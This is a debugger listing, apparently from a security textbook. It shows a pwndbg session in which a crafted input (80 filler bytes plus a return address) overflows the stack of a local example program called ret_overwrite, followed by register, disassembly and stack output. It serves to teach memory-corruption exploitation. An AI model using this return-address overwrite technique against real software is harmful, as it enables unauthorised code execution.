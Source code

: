 \begin{lstlisting}
pwndbg> r < <(python -c "print 'A' * 80 + '\xe7\x05\x40\x00\x00\x00\x00\x00'")
Starting program: /home/devneal/Security/REFE/textbook/example_code/ret_overwrite < <(python -c "print 'A' * 80 + '\xe7\x05\x40\x00\x00\x00\x00\x00'")

Breakpoint 1, 0x000000000040060d in main ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
[───────────REGISTERS───────────]
*RAX  0x400609 (main) ◂— push   rbp
 RBX  0x0
*RCX  0x0
*RDX  0x7fffffffdfa8 —▸ 0x7fffffffe2e5 ◂— 'XDG_VTNR=7'
 RDI  0x1
*RSI  0x7fffffffdf98 —▸ 0x7fffffffe2a5 ◂— 0x65642f656d6f682f ('/home/de')
*R8   0x400700 (__libc_csu_fini) ◂— ret    
*R9   0x7ffff7de7ab0 (_dl_fini) ◂— push   rbp
*R10  0x846
*R11  0x7ffff7a2d740 (__libc_start_main) ◂— push   r14
 R12  0x4004e0 (_start) ◂— xor    ebp, ebp
 R13  0x7fffffffdf90 ◂— 0x1
 R14  0x0
 R15  0x0
*RBP  0x7fffffffdeb0 —▸ 0x400690 (__libc_csu_init) ◂— push   r15
*RSP  0x7fffffffdeb0 —▸ 0x400690 (__libc_csu_init) ◂— push   r15
*RIP  0x40060d (main+4) ◂— sub    rsp, 0x50
[───────────DISASM───────────]
   0x400609 <main>       push   rbp
   0x40060a <main+1>     mov    rbp, rsp
 ► 0x40060d <main+4>     sub    rsp, 0x50
   0x400611 <main+8>     lea    rax, [rbp - 0x50]
   0x400615 <main+12>    add    rax, 8
   0x400619 <main+16>    mov    edx, 0x40
   0x40061e <main+21>    mov    esi, 0
   0x400623 <main+26>    mov    rdi, rax
   0x400626 <main+29>    call   memset@plt                    <0x4004a0>
 
   0x40062b <main+34>    mov    qword ptr [rbp - 0x50], 0
   0x400633 <main+42>    mov    edi, 0x40076e
[────────────STACK────────────]
00:0000│ rbp rsp  0x7fffffffdeb0 —▸ 0x400690 (__libc_csu_init) ◂— push   r15
01:0008│          0x7fffffffdeb8 —▸ 0x7ffff7a2d830 (__libc_start_main+240) ◂— mov    edi, eax
02:0010│          0x7fffffffdec0 ◂— 0x0
03:0018│          0x7fffffffdec8 —▸ 0x7fffffffdf98 —▸ 0x7fffffffe2a5 ◂— 0x65642f656d6f682f ('/home/de')
04:0020│          0x7fffffffded0 ◂— 0x100000000
05:0028│          0x7fffffffded8 —▸ 0x400609 (main) ◂— push   rbp
06:0030│          0x7fffffffdee0 ◂— 0x0
07:0038│          0x7fffffffdee8 ◂— 0x7c6654f0a1383abe
[───────────BACKTRACE───────────]
 ► f 0           40060d main+4
   f 1     7ffff7a2d830 __libc_start_main+240
Breakpoint main
pwndbg> c
Continuing.
Enter the password:


\end{lstlisting}
